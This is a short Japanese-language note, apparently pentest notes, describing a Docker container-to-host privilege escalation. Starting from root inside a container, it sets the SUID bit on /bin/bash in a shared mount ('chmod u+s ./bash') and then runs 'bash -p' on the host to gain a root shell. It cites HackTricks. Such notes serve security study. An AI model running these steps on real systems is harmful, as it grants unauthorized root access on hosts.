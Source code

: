 前提:コンテナ上でRoot権限を取得していること
   1. ホスト側で以下のコマンドを入力してDockerコンテナとホスト間で共有してあるディスクを確認する。
```sh
df -h
```

以下が返ってくる。
```sh
Filesystem      Size  Used Avail Use% Mounted on
udev            1.9G     0  1.9G   0% /dev
tmpfs           394M  1.3M  392M   1% /run
/dev/sda2       6.8G  4.3G  2.4G  64% /
tmpfs           2.0G     0  2.0G   0% /dev/shm
tmpfs           5.0M     0  5.0M   0% /run/lock
tmpfs           2.0G     0  2.0G   0% /sys/fs/cgroup
overlay         6.8G  4.3G  2.4G  64% /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
shm              64M     0   64M   0% /var/lib/docker/containers/e2378324fced58e8166b82ec842ae45961417b4195aade5113fdc9c6397edc69/mounts/shm
overlay         6.8G  4.3G  2.4G  64% /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
shm              64M     0   64M   0% /var/lib/docker/containers/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e/mounts/shm
tmpfs           394M     0  394M   0% /run/user/1000
```

   2. DockerContainerにて以下のコマンドを実行
```sh
cd /bin/
chmod u+s ./bash
```
      
   3. マシンのホスト側にて以下を実施
```sh
bash -p
```
  - 参考
    - Hacktricks
      https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation
